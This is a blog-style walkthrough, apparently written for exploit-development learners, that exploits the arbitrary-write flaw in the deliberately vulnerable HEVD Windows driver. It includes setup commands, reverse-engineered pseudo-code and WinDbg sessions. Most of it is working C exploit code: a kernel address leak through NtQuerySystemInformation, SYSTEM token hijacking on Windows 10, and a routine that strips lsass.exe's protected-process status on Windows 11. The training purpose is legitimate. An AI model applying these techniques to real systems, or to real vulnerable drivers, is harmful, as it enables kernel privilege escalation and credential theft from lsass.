










Arbritrary Write - HEVD (ft. Astharot15)
Introduction
For this exploitation, we will use tools such as System Informer, HEVD, Visual Studio 2019, and Visual Studio 2026. We will also use two virtual machines for debugging and attacking.
Lab Setup and Environment
We will not place much emphasis on driver installation, we will simply create the driver service using sc.exe and disable DSE (Drive Signature Enforcement) with bcdedit:
C:\Windows\system32>sc.exe create HEVD binPath=C:\Users\IEUser\Desktop\HEVD.3.00\driver\vulnerable\x64\HEVD.sys type=kernel start=demand
[SC] CreateService SUCCESS
C:\Windows\system32> bcdedit /set testsigning onCommunicating with the Driver
Client Program
Once the driver is loaded, we will create a client to interact with the driver.Since we want to exploit the arbitrary write vulnerability, we will search for its definitions inside the HEVD GitHub repository: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/HEVD/Windows/HackSysExtremeVulnerableDriver.h
#include <stdio.h>
#include <Windows.h>
#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_ARBITRARY_WRITE IOCTL(0x802)
int main() {
HANDLE hFile;
hFile = CreateFile(L"\\\\.\\HackSysExtremeVulnerableDriver", FILE_GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, GENERIC_READ);
if (hFile == INVALID_HANDLE_VALUE) {
printf("Invalid handle\n");
return 1;
}
DeviceIoControl(hFile, HEVD_IOCTL_ARBITRARY_WRITE, NULL, 0, NULL, 0, NULL, NULL);
CloseHandle(hFile);
return 0;
}IOCTL Interface
We use the function CreateFileW which is the Unicode version of the CreateFile macro for using wide strings: L"\\\\.\\HackSysExtremeVulnerableDriver".
This wide string is a symbolic interface that exposes the driver to the user space. With the WinObjEx64 tool, you can see the symbolic link of the driver in userland.

Another way we draw from the screenshot is the correlation between \\\\.\\ (without escaping: \\.\) and \Device\ path.
For more information about DOS path check: https://medium.com/walmartglobaltech/dos-file-path-magic-tricks-5eda7a7a85fa
This function returns a handle to the driver. This handle is used in DeviceIoControl that sends a control code directly to a specified device controller, causing the device driver to perform the corresponding operation.
For more information about the attributes used please check the learn microsoft wiki.
Verifying the Driver in WinDbg
0: kd> lm
start end module name
ffff8063`22e00000 ffff8063`2318b000 win32kfull # (pdb symbols) C:\ProgramData\Dbg\sym\win32kfull.pdb\1012DAF3B8069850918387792AAB39FD1\win32kfull.pdb
ffff8063`23190000 ffff8063`233ec000 win32kbase (deferred)
ffff8063`233f0000 ffff8063`23438000 cdd (deferred)
ffff8063`23ba0000 ffff8063`23c2b000 win32k (deferred)
fffff802`29cd0000 fffff802`29d5c000 HEVD (deferred)
Since the driver is listed as deferred, we can assume that the module has been loaded, but the debugger has not attempted to load the symbols. Now we can do a bit of reversing in the driver to understand how arbitrary write works and exploit it.
Vulnerability Analysis: Arbitrary Write
HEVD contains a simple arbitrary memory overwrite vulnerability, from IDA Pro 9.0 we can extract the following pseudo-c code:
Vulnerable Code Path
__int64 __fastcall TriggerArbitraryWrite(_WRITE_WHAT_WHERE *UserWriteWhatWhere)
{
unsigned __int64 *What; // rbx
unsigned __int64 *Where; // rdi
ProbeForRead(UserWriteWhatWhere, 0x10uLL, 1u);
What = UserWriteWhatWhere->What;
Where = UserWriteWhatWhere->Where;
DbgPrintEx(0x4Du, 3u, "[+] UserWriteWhatWhere: 0x%p\n", UserWriteWhatWhere);
DbgPrintEx(0x4Du, 3u, "[+] WRITE_WHAT_WHERE Size: 0x%X\n", 16);
DbgPrintEx(0x4Du, 3u, "[+] UserWriteWhatWhere->What: 0x%p\n", What);
DbgPrintEx(0x4Du, 3u, "[+] UserWriteWhatWhere->Where: 0x%p\n", Where);
DbgPrintEx(0x4Du, 3u, "[+] Triggering Arbitrary Write\n");
*Where = *What;
return 0LL;
}Thanks to IDA casting we are able to create the following structure. Alternatively, you can review the HEVD source code directly, although this scenario is not that realistic in real world exploitation:
typedef struct _WRITE_WHAT_WHERE
{
PULONG_PTR What;
PULONG_PTR Where;
} WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;Proof of Concept
The concept of an arbitrary write vulnerability allows the user to write arbitrary data to an arbitrary memory location. In this case, we will write 0xFACE in a random memory address that we have allocated.
#include "consoleAWrite.h"
int main() {
HANDLE hFile;
PWRITE_WHAT_WHERE inputBuffer = (PWRITE_WHAT_WHERE)malloc(sizeof(WRITE_WHAT_WHERE));
int* msg = (int*)malloc(sizeof(int));
*msg = 0xFACE;
inputBuffer->What = (PULONG_PTR)VirtualAlloc(NULL, sizeof(PULONG_PTR), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
memcpy(inputBuffer->What, msg, sizeof(int*));
inputBuffer->Where = (PULONG_PTR)VirtualAlloc(NULL, sizeof(PULONG_PTR), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
hFile = CreateFile(L"\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
if (hFile == INVALID_HANDLE_VALUE) {
printf("Invalid Handle\n");
return 1;
}
DeviceIoControl(hFile, HEVD_IOCTL_ARBITRARY_WRITE, inputBuffer, sizeof(PULONG_PTR), NULL, 0, NULL, NULL);
CloseHandle(hFile);
VirtualFree(inputBuffer->What, sizeof(PULONG_PTR), MEM_DECOMMIT);
VirtualFree(inputBuffer->Where, sizeof(PULONG_PTR), MEM_DECOMMIT);
free(inputBuffer);
free(msg);
return 0;
}Kernel Debugging
To check the exploit we need to set a breakpoint at the driver function in windbg:
0: kd> bp HEVD!TriggerArbitraryWrite
breakpoint 0 redifined
0: kd> bl
0 e Disable Clear fffff806`64795e74 [c:\projects\hevd\driver\hevd\arbitrarywrite.c @ 67] 0001 (0001) HEVD!TriggerArbitraryWriteOnce the breakpoint is set we can show part of the assembly instructions to identify function information:
2: kd> uu HEVD!TriggerArbitraryWrite L35
HEVD!TriggerArbitraryWrite [c:\projects\hevd\driver\hevd\arbitrarywrite.c @ 67]:
fffff800`34e35e74 488bc4 mov rax,rsp
fffff800`34e35e77 48895808 mov qword ptr [rax+8],rbx
fffff800`34e35e7b 48897010 mov qword ptr [rax+10h],rsi
fffff800`34e35e7f 48897818 mov qword ptr [rax+18h],rdi
fffff800`34e35e83 4c896020 mov qword ptr [rax+20h],r12
fffff800`34e35e87 4156 push r14
fffff800`34e35e89 4883ec20 sub rsp,20h
fffff800`34e35e8d 4c8bf1 mov r14,rcx
fffff800`34e35e90 33f6 xor esi,esi
fffff800`34e35e92 8d5610 lea edx,[rsi+10h]
fffff800`34e35e95 448d4601 lea r8d,[rsi+1]
fffff800`34e35e99 ff15a9c1f7ff call qword ptr [HEVD!_imp_ProbeForRead (fffff800`34db2048)]
fffff800`34e35e9f 498b1e mov rbx,qword ptr [r14]
fffff800`34e35ea2 498b7e08 mov rdi,qword ptr [r14+8]
fffff800`34e35ea6 4d8bce mov r9,r14
fffff800`34e35ea9 4c8d05202f0000 lea r8,[HEVD! ?? ::NNGAKEGL::`string' (fffff800`34e38dd0)]
fffff800`34e35eb0 448d6603 lea r12d,[rsi+3]
fffff800`34e35eb4 418bd4 mov edx,r12d
fffff800`34e35eb7 448d764d lea r14d,[rsi+4Dh]
fffff800`34e35ebb 418bce mov ecx,r14d
fffff800`34e35ebe ff1544c1f7ff call qword ptr [HEVD!_imp_DbgPrintEx (fffff800`34db2008)]
fffff800`34e35ec4 448d4e10 lea r9d,[rsi+10h]
fffff800`34e35ec8 4c8d05212f0000 lea r8,[HEVD! ?? ::NNGAKEGL::`string' (fffff800`34e38df0)]Registers and Calling Conventions
Since the function is a fastcall, we know that the register it takes for the UserWriteWhatWhere parameter will be rcx. You can learn more about calling conventions in https://en.wikibooks.org/wiki/X86_Disassembly/Calling_Convention_Examples
With windbg obtain detailed information about the structure passed in the parameter and its pointer version:
2: kd> dt _WRITE_WHAT_WHERE
HEVD!_WRITE_WHAT_WHERE
+0x000 What : Ptr64 Uint8B
+0x008 Where : Ptr64 Uint8B
2: kd> dt PWRITE_WHAT_WHERE
HEVD!PWRITE_WHAT_WHERE
Ptr64 +0x000 What : Ptr64 Uint8B
+0x008 Where : Ptr64 Uint8BOur mission is to see where the rcx is modified to view its value and later check if it is correct. Inside the code you can find the following asm instruction:
fffff800`34e35e99 ff15a9c1f7ff call qword ptr [HEVD!_imp_ProbeForRead (fffff800`34db2048)]
fffff800`34e35e9f 498b1e mov rbx,qword ptr [r14]
fffff800`34e35ea2 498b7e08 mov rdi,qword ptr [r14+8]
-> fffff800`34e35ea6 4d8bce mov r9,r14
fffff800`34e35ea9 4c8d05202f0000 lea r8,[HEVD! ?? ::NNGAKEGL::`string' (fffff800`34e38dd0)]For those who are not very familiar with assembly, here is the pseudo-C code.
ProbeForRead(UserWriteWhatWhere, 0x10uLL, 1u);
What = UserWriteWhatWhere->What;
Where = UserWriteWhatWhere->Where;Verifying Memory Overwrite
Lets insert a breakpoint in that address to view the r14 value (or r9, both with the rcx value from: mov r14,rcx):
2: kd> g
Breakpoint 1 hit
HEVD!TriggerArbitraryWrite+0x32:
fffff800`34e35ea6 4d8bce mov r9,r14
2: kd> dt HEVD!_WRITE_WHAT_WHERE @r14
+0x000 What : 0x00000229`399c0000 -> 0xfdfdfdfd`0000face
+0x008 Where : 0x00000229`39a90000 -> ??As you can see, the last nibbles of the address they will write 0xFACE, and the where address is not defined in our code, which is why it is not properly recognized. The reason it didn’t BSOD is that the driver has a try except exception handler when calling the main function. Once we have verified that it works, and with other tests manipulating the Where attribute, we can begin the real exploitation.
Exploitation
Token Hijacking (W10)
Once the vulnerability has been confirmed, we can perform the first attack.
Bypassing KASLR
To be able to perform actions at the kernel level, such as token hijacking of the NT authority/system user or changing the protections of a secure process, we need to obtain the _eprocess address in order to modify the specific data of each structure.
In this case we will use a PoC from bmphx2 to bypass de KASLR with the NtQueryStstemInformation function:
// PoC: NTQuerySystemInformation() using SystemHandleInformation information class (Bruno Oliveira @mphx2)
#include <windows.h>
#include <wchar.h>
#include <stdlib.h>
#include <stdio.h>
#define NT_SUCCESS(x) ((x) >= 0)
PVOID ProcAddress;
typedef NTSTATUS(NTAPI* _NtQuerySystemInformation)(
ULONG SystemInformationClass,
PVOID SystemInformation,
ULONG SystemInformationLength,
PULONG ReturnLength
);
typedef struct SYSTEM_HANDLE
{
ULONG ProcessId;
UCHAR ObjectTypeNumber;
UCHAR Flags;
USHORT Handle;
PVOID Object;
ACCESS_MASK GrantedAccess;
} SYSTEM_HANDLE_INFORMATION_, * PSYSTEM_HANDLE_INFORMATION_;
typedef struct SYSTEM_HANDLE_INFORMATION
{
ULONG HandleCount;
SYSTEM_HANDLE Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;
PVOID FindBaseAddress(ULONG pid) {
HINSTANCE hNtDLL = LoadLibraryA("ntdll.dll");
PSYSTEM_HANDLE_INFORMATION buffer;
ULONG bufferSize = 0xffffff;
buffer = (PSYSTEM_HANDLE_INFORMATION)malloc(bufferSize);
NTSTATUS status;
_NtQuerySystemInformation NtQuerySystemInformation =_NtQuerySystemInformation(GetProcAddress(hNtDLL, "NtQuerySystemInformation"));
status = NtQuerySystemInformation(0x10, buffer, bufferSize, NULL); // 0x10 = SystemHandleInformation
if (!NT_SUCCESS(status)) {
printf("NTQueryInformation Failed!\n");
exit(-1);
}
for (ULONG i = 0; i <= buffer->HandleCount; i++) {
if ((buffer->Handles[i].ProcessId == pid)) {
ProcAddress = buffer->Handles[i].Object;
printf("Address: 0x%p, Object Type: %d, Handle: %x\n", buffer->Handles[i].Object, buffer->Handles[i].ObjectTypeNumber, buffer->Handles[i].Handle);
}
}
free(buffer);
}
void main()
{
printf("NTQuerySystemInformation() PoC -- Bruno Oliveira @mphx2\n");
FindBaseAddress(GetCurrentProcessId());
getchar();
}Basically, this code abuses NtQuerySystemInformation using the SystemHandleInformation / 0x10 class to gather a list of all open handles in the system. Each handle originates from user mode but internally points to a kernel object, in this case we want to focus it on the _EPROCESS structure. Thus, the program obtains the memory address of ntdll.dll to be able to leak kernel memory.
If you want to use another class view: https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntexapi/system_information_class.htm
Locating _EPROCESS
The first way to exploit arbitrary write is implementing a token hijacking on a PowerShell process. In fact, it can be any process you want as long as it has a process referencing itself, since this method takes advantage of obtaining the memory address of the _EPROCESS structure using the handle type: 0x7, a type specific to processes.
You can know which process has this handle type thanks to the System Informer filter:

We have found that the first handle object type with the value 0x7 belongs to the process that call the function (_EPROCESS structure). From there we can execute the token hijacking, if you want a more detailed information of this attack please read: Elementary: Understanding Process.
Anyways, here a picture of how we plan this attack:

C Exploit: Token hijacking
With a few modifications in the poc shown before and some basic C programming we have the final code:
#include "consoleAWrite.h"
PVOID FindBaseAddress(ULONG pid, PEPROCESS* process) {
HINSTANCE hNtDLL = LoadLibraryA("ntdll.dll");
PSYSTEM_HANDLE_INFORMATION buffer;
ULONG bufferSize = 0xffffff;
buffer = (PSYSTEM_HANDLE_INFORMATION)malloc(bufferSize);
NTSTATUS status;
_NtQuerySystemInformation NtQuerySystemInformation = _NtQuerySystemInformation(GetProcAddress(hNtDLL, "NtQuerySystemInformation"));
status = NtQuerySystemInformation(0x10, buffer, bufferSize, NULL); // 0x10 = SystemHandleInformation
if (!NT_SUCCESS(status)) {
printf("NTQueryInformation Failed!\n");
exit(-1);
}
for (ULONG i = 0; i <= buffer->HandleCount; i++) {
if ((buffer->Handles[i].ProcessId == pid)) {
ProcAddress = buffer->Handles[i].Object;
if (buffer->Handles[i].ObjectTypeNumber == 7) {
*process = buffer->Handles[i].Object;
break;
}
}
}
free(buffer);
}
void main() {
PEPROCESS _eprocessPS;
PEPROCESS _eprocessSystem;
FindBaseAddress(4, &_eprocessSystem);
FindBaseAddress(10436, &_eprocessPS);
PEX_FAST_REF PtokenSystem = (PEX_FAST_REF)((LONGLONG)_eprocessSystem + 0x358);
PEX_FAST_REF PtokenPS = (PEX_FAST_REF)((LONGLONG)_eprocessPS + 0x358);
HANDLE hDriver;
int status;
PWRITE_WHAT_WHERE inputBuffer = (PWRITE_WHAT_WHERE)malloc(sizeof(WRITE_WHAT_WHERE));
hDriver = CreateFile(L"\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
if (hDriver == INVALID_HANDLE_VALUE) {
printf("[!] Failed to open HANDLE: %d", GetLastError());
}
inputBuffer->What = (PULONG_PTR)PtokenSystem;
inputBuffer->Where = (PULONG_PTR)PtokenPS;
status = DeviceIoControl(hDriver, HEVD_IOCTL_ARBITRARY_WRITE, inputBuffer, sizeof(inputBuffer), NULL, 0, NULL, NULL);
printf("IOCTL ended with status code %d", status);
CloseHandle(hDriver);
free(inputBuffer);
}With the header file:
#pragma once
#include <windows.h>
#include <wchar.h>
#include <stdlib.h>
#include <stdio.h>
#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_ARBITRARY_WRITE IOCTL(0x802)
#define NT_SUCCESS(x) ((x) >= 0)
typedef struct _WRITE_WHAT_WHERE
{
PULONG_PTR What;
PULONG_PTR Where;
} WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;
PVOID ProcAddress;
typedef NTSTATUS(NTAPI* _NtQuerySystemInformation)(
ULONG SystemInformationClass,
PVOID SystemInformation,
ULONG SystemInformationLength,
PULONG ReturnLength
);
typedef struct SYSTEM_HANDLE
{
ULONG ProcessId;
UCHAR ObjectTypeNumber;
UCHAR Flags;
USHORT Handle;
PVOID Object;
ACCESS_MASK GrantedAccess;
} SYSTEM_HANDLE_INFORMATION_, * PSYSTEM_HANDLE_INFORMATION_;
typedef struct SYSTEM_HANDLE_INFORMATION
{
ULONG HandleCount;
SYSTEM_HANDLE Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;
typedef PVOID PEPROCESS;
PVOID FindBaseAddress(ULONG pid, PEPROCESS process);
PVOID ListActiveProcessLinks(ULONG pid, PEPROCESS process, PSYSTEM_HANDLE_INFORMATION buffer);
//0x8 bytes (sizeof)
typedef struct _EX_FAST_REF {
union
{
VOID* Object; //0x0
ULONGLONG RefCnt : 4; //0x0
ULONGLONG Value; //0x0
};
} _EX_FAST_REF, * PEX_FAST_REF;Poc token hijacking:

Protected Process Light (PPL) bypass (W11)
Identifying Protected Processes
In this last section we will discuss how to apply arbitrary write on a modern windows machine to disable a protected process. First of all, identify your protected process, in our case is lsass.exe, as we see in the screenshot the Light (Lsa) protection is enabled:

_PS_PROTECTION structure
From windbg we can also see the protections used, as it has the byte 0x1 in the Type attribute.

Disabling LSASS Protection
As with token hijacking, we must find a process that has this privilege disabled, although we can also overwrite the byte with a 0 to disable protection: Lsa. In this case, we will ““hijack”” the protections:

C Exploit: PPL Bypass
After understanding the concept, we are able to write the following script:
// ArbitratyWrite.cpp : This file contains the 'main' function. Program execution begins and ends there.
//
#include "driverHelper.h"
int main(int argc, char** argv)
{
HANDLE hDriver;
int status;
PEPROCESS eProcess_process;
PEPROCESS eProcess_lsass;
ULONG processId = atoi(argv[1]);
ULONG lsassId = atoi(argv[2]);
PWRITE_WHAT_WHERE inputBuffer = (PWRITE_WHAT_WHERE)malloc(sizeof(WRITE_WHAT_WHERE));
hDriver = CreateFile(L"\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_WRITE, nullptr, OPEN_EXISTING, 0, nullptr);
if (hDriver == INVALID_HANDLE_VALUE) {
printf("[!] Failed to open HANDLE: %d", GetLastError());
return 1;
}
printf("[+] The handle was open succesfully: %08p\n", hDriver);
FindBaseAddress(processId, &eProcess_process);
FindBaseAddress(lsassId, &eProcess_lsass);
printf("eProcess process: 0x%p\n", eProcess_process);
printf("eProcess lsass: 0x%p\n", eProcess_lsass);
_PS_PROTECTION prot_process = (_PS_PROTECTION)((LONGLONG)eProcess_process + PS_OFFSET);
_PS_PROTECTION prot_lsass = (_PS_PROTECTION)((LONGLONG)eProcess_lsass + PS_OFFSET);
printf("PS_PROTECTION process: 0x%p\n", prot_process);
printf("PS_PROTECTION lsass: 0x%p\n", prot_lsass);
inputBuffer->What = (PULONG_PTR)prot_process;
inputBuffer->Where = (PULONG_PTR)prot_lsass;
status = DeviceIoControl(hDriver, HEVD_IOCTL_ARBITRARY_WRITE, inputBuffer, sizeof(inputBuffer), NULL, 0, NULL, NULL);
printf("IOCTL ended with status code %d", status);
CloseHandle(hDriver);
free(inputBuffer);
return 0;
}
PVOID FindBaseAddress(ULONG pid, PEPROCESS* process) {
HINSTANCE hNtDLL = LoadLibraryA("ntdll.dll");
PSYSTEM_HANDLE_INFORMATION buffer;
ULONG bufferSize = 0xffffff;
buffer = (PSYSTEM_HANDLE_INFORMATION)malloc(bufferSize);
NTSTATUS status;
_NtQuerySystemInformation NtQuerySystemInformation = _NtQuerySystemInformation(GetProcAddress(hNtDLL, "NtQuerySystemInformation"));
status = NtQuerySystemInformation(0x10, buffer, bufferSize, NULL); // 0x10 = SystemHandleInformation
if (!NT_SUCCESS(status)) {
printf("NTQueryInformation Failed!\n");
exit(-1);
}
for (ULONG i = 0; i <= buffer->HandleCount; i++) {
if ((buffer->Handles[i].ProcessId == pid)) {
ProcAddress = buffer->Handles[i].Object;
if (buffer->Handles[i].ObjectTypeNumber == 8) { // In windows 10 is objectType 7 while in Windows 11 depending on the version is objectType 8
// printf("Handle: %d\t", buffer->Handles[i].Handle); // Debug process
*process = buffer->Handles[i].Object;
break;
}
}
}
free(buffer);
}When we run it, we can see the changes made.


Also, in the System Informer Software the information has changed:

Thanks for reading, I hope you enjoyed the blog. If you have any questions, please contact me or Astharot.
до скорого.